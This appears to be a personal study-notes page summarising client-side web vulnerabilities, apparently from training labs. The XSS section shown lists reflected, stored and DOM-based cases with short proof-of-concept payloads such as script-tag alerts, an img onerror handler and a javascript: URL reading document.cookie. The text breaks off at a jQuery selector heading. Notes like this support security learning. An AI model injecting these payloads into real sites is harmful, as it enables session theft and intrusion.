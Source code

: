 Client-side summary
---
Ayooo, lucky me!

Author: Punthat Siriwan

---
**TOPICS**
- [XSS](#xss)
- [CSRF](#csrf)
- [CORS](#cors)
- [Clickjacking](#clickjacking)
- [Dom Vuln](#dom-vuln)
- [Web Socket](#web-socket)

----
----
# XSS

**Reflected XSS nothing encoded**

`<script>alert('hello')<script>`

---
**Stored XSS nothing encoded**  

    comment in any post
`<script>alert(1)</script>`

---

**DOM XSS in document.write** - source location.search

    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
`"><script>alert(1)</script>`

---

**DOM XSS in innerHTML** - source location.search

    function doSearchQuery(query)
`<img src=1 onerror=alert(1)>`

---

**DOM XSS in JQuery anchor** - source location.search

    contain feedback function
    id="backLink" href="/"

`/feedback?returnPath=javascript:alert(document.cookie)`

---

**DOM XSS in JQuery selector** - hashchange event
